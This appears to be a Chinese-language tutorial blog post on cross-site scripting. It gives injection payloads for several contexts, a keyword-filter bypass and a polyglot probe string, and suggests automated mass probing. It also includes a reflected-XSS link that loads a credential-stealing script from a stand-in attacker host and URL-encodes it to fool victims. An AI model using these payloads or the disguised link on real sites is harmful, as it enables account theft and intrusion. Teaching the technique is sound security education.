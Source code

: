 {"title": "\u624b\u628a\u624b\u6559\u4f60xss\u653b\u51fb", "draft": false, "date": "2023-04-07T14:39:24+08:00"}

一句话解释xss就是通过提供恶意的用户输入让浏览器执行恶意的JavaScript代码。

### 最简单的例子

```jsx
<div>
    <h1> Welcome {your input} </h1>
</div>
```

这里页面希望你通过文本框输入自己名字，然后把你输入的名字展示出来。假如你输入的名字是:`<script>alert('XSS')</script>`

这时候浏览器将解析下面的html代码

```jsx
<div>
    <h1> Welcome <script>alert('XSS')</script></h1>
</div>
```

script标签里的js代码就被执行了，这就是一个最简单的xss。

### 复杂一点点的例子

```jsx
<div>
    <h1> Welcome <input value="{your input}"</h1>
</div>
```

这时候如果你输入`<script>alert('XSS')</script>` 那么将得到类似下面的结果

```jsx
<div>
    <h1> Welcome <input "<script>alert('XSS')</script>"</h1>
</div>
```

因为script标签被包含在双引号里，浏览器会认为这是一个普通的字符串，所以不会执行js代码。不过如果你输入`“"><script>alert('XSS');</script>”` 那么你将会打开一个新的局面

```jsx
<div>
    <h1> Welcome <input ""><script>alert('XSS')</script></h1>
</div>
```

input标签被强行闭合，script标签成功上位。这时候js代码又可以执行了。

### 再来个例子

```jsx
<script>
    document.getElementsByClassName('name')[0].innerHTML='{input}';
</script>
```

这个例子里我们要想办法在现有的代码中插入恶意的js代码，这里需要用到2点小知识

- js代码中`;`号可以结束一行语句
- js代码中`//`表示后面的所有内容都是注释，可以被忽略掉

因此如果我们输入的是`';alert('XSS');//` 那么中间的alert语句是可以执行的

```jsx
<script>
    document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//'
</script>
```

前面的单引号被第1个单引号匹配并终结，后面的分号直接结束了这一句，而后面的那个单引号则被`//` 注释掉了，所以中间的alert代码是可以顺利执行的。

### 还有例子

有时候页面会过滤掉一些危险的关键字，比如script标签，这时候可以试试构造下面的数据

```jsx
<sscriptcript>alert('XSS');</sscriptcript>
```

当script标签被过滤掉之后，html代码如下

```jsx
<script>alert('XSS');</script>
```

恶意代码可以顺利执行。

### 探针

如果每次见招拆招的话，那么攻击的效率是不太高的，这时候就可以试试下面的这种标准化探针字符串，如果页面存在一些基本的xss漏洞的话，下面的代码是可以被顺利执行的。

```jsx
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

我们可以使用自动化的工具在页面上所有可以输入的地方批量植入探针，这样就可以大规模高效率的进行攻击了。

### 非持久化的xss

上面的例子是持久化的xss，简单来说就是需要把用户输入的内容保存到数据库里然后在页面进行回显，在现实中其实还有一种不需要持久化就进行xss攻击的例子。

下面的例子来自维基百科。

假设我们有一个搜索页面，该页面会回显url里的q参数，比如`http://bobssite.org/search**?q=**<script>alert('xss');</script>` ****q参数后面的内容会回显到搜索框里，这样就可以把搜索结果简单的复制给其他人了。然而如果我们搜索的内容是带恶意脚本的script标签的话，在标签没有被转义的情况下，页面就会在回显的时候直接执行标签里的脚本了。

这种方式还可以这样玩，比如

```jsx
http://bobssite.org/search?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js">
```

这样就可以执行authstealer.js脚本了，后面的事情有点复杂，就不过多描述了。

最后为了不引起被害者的警觉，我们还可以把url中的内容编码一下

```jsx
http://bobssite.org/search?q=puppies%3Cscript%20src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```

这样被害人收到这样链接的时候就更有可能随手一点了。

### 总结

xss攻击是最常见的前端攻击方式，一般情况下常用的前端框架都有安全机制尽量避免xss的发生，但武器库里有防身的工具，不见得所有的开发者都会熟练应用，因此xss漏洞始终是有可能出现的。